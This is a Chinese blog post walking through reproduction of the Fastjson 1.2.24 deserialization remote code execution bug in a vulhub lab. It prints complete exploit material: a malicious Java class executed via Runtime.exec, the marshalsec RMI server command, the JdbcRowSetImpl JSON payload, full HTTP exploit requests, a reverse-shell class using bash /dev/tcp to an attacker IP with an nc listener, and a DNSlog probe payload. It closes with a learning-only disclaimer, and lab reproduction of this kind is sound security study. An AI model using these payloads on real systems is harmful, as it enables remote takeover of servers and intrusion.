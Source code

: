 ```yaml
---
layout: post
title: Fastjson 远程命令执行的POC
categories: [安全漏洞]
description: Fastjson 远程命令执行的POC

keywords: 安全漏洞, fastjson
---
```




# 前言

**漏洞描述**
FastJson 库是 Java 的一个 Json 库，其作用是将 Java 对象转换成 json 数据来表示，也可以将 json 数据转换成 Java 对象，使用非常方便，号称是执行速度最快的库。

在 1.2.24 版本的 Fastjson 出现了一个反序列化的漏洞，fastjson 在解析 json 的过程中，支持使用 autoType 来实例化某一个具体的类，并调用该类的 set/get 方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

**漏洞影响版本**

fastjson <= 1.2.24

## 准备环境


Fastjson <= 1.2.47 远程命令执行漏洞利用工具及方法，以及避开坑点

以下操作均在Ubuntu 18下亲测可用，openjdk需要切换到8，且使用8的javac

- java
  
```
> java -version
openjdk versin "1.8.0_222"

> javac -version
javac 1.8.0_222
```

## 漏洞环境
靶场选择使用vulhub搭建，网址：<https://github.com/vulhub/vulhub>

下载 vulhub ，找到 `fastjson/1.2.24-rce 目录`，使用docker-compose up -d启动环境。


## 漏洞复现

1. 编写恶意类

在攻击机上编写恶意类代码 `TouchFile.java`

```
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
 static {
     try {
         Runtime rt = Runtime.getRuntime();
         String[] commands = {"touch", "/tmp/EDI"};
         Process pc = rt.exec(commands);
         pc.waitFor();
     } catch (Exception e) {
     }
 }
}

```

然后 `javac TouchFile.java `编译一下，生成 `TouchFile.class`

![](https://img-blog.csdnimg.cn/88f9ab49874a40a8988a78f998bb0241.png)

使用 python 起一个http服务 `python -m SimpleHTTPServer 8888`

![](https://img-blog.csdnimg.cn/7a07f6f92925424f984f40dde31d785a.png)

2. 编译并开启RMI服务

- 下载 [marshalsec](https://github.com/mbechler/marshalsec) 项目 

java8 下，使用 maven 构建 `mvn clean package -DskipTests` 生成相应jar包

![](https://img-blog.csdnimg.cn/b8c45fc54cac4e1e8506e67ff5ab3211.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAQmlnJkJpcmQ=,size_20,color_FFFFFF,t_70,g_se,x_16)


**启动RMI服务，监听 9999端口** ，并制定远程加载类TouchFile.class


```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://攻击机IP:8888/#TouchFile" 9999

```

![](https://img-blog.csdnimg.cn/44f5743c5377421088902a9d0c84f511.png)



3. 抓包触发 fastjson 请求
访问 http://靶机:8090/ ，并通过bp抓包

修改请求方式为 `POST`, `Content-Type 改成application/json`，并写入exp，然后发送请求。


### **payload:**

```
{
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://攻击机IP:9999/TouchFile",
 "autoCommit":true
 }
}
```

**exp:**

```
POST / HTTP/1.1
Host: 192.168.42.200:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,hr;q=0.8,ru;q=0.7
Cookie: Hm_lvt_bc38887aa5588add05a38704342ad7e8=1646619039; 
Connection: close
Content-Type: application/json
Content-Length: 137

{
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.42.200:9999/TouchFile",
 "autoCommit":true
 }
}
```

**响应：**

![](https://img-blog.csdnimg.cn/e30d605ff7e146f2a12959ce2561f585.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAQmlnJkJpcmQ=,size_20,color_FFFFFF,t_70,g_se,x_16)


4. 检验结果
   
进入靶机中，发现`创建了/tmp/EDI 文件`攻击成功



## 反弹shell

既然能创建文件，那么也可以反弹shell
修改**恶意类文件 TouchFile.java :**

```
// TouchFile.java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
 
public class TouchFile {
   static {
       try {
           Runtime r = Runtime.getRuntime();
           Process p = r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/<攻击机器IP>/4444 0>&1"});
           p.waitFor();
       } catch (Exception e) {
           // do nothing
       }
   }
}
```

然后 `javac TouchFile.java `编译一下，生成 `TouchFile.class`

#### nc 监听:

nc -lvvp 4444

访问 FastJson 页面，使用 Burp 抓包，改为 POST 请求，使用 exp 反弹 shell

**exp:**

```
POST / HTTP/1.1
Host: 192.168.42.200:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,hr;q=0.8,ru;q=0.7
Cookie: Hm_lvt_bc38887aa5588add05a38704342ad7e8=1646619039; 
Connection: close
Content-Type: application/json
Content-Length: 137

{
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.42.200:9999/TouchFile",
 "autoCommit":true
 }
}
```


可以看到请求成功，加载了恶意类,成功拿到 shell




![](https://img-blog.csdnimg.cn/20200720233638849.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MTU5ODY2MA==,size_16,color_FFFFFF,t_70)


## DNSlog 平台验证
1. [DNSlog平台验证](http://www.dnslog.cn/)
   
（比网上很多payload都要好用，通杀版本）
    payload:
    ```
     {"zeo":{"@type":"java.net.Inet4Address","val":"dnslog的位置"}}
    ```
    ![](https://img-blog.csdnimg.cn/20200722205445187.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MTU5ODY2MA==,size_16,color_FFFFFF,t_70)

    ![](https://img-blog.csdnimg.cn/20200722205536663.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MTU5ODY2MA==,size_16,color_FFFFFF,t_70)

# 免责声明

仅作为漏洞复现进行学习，切勿对网站进行非法测试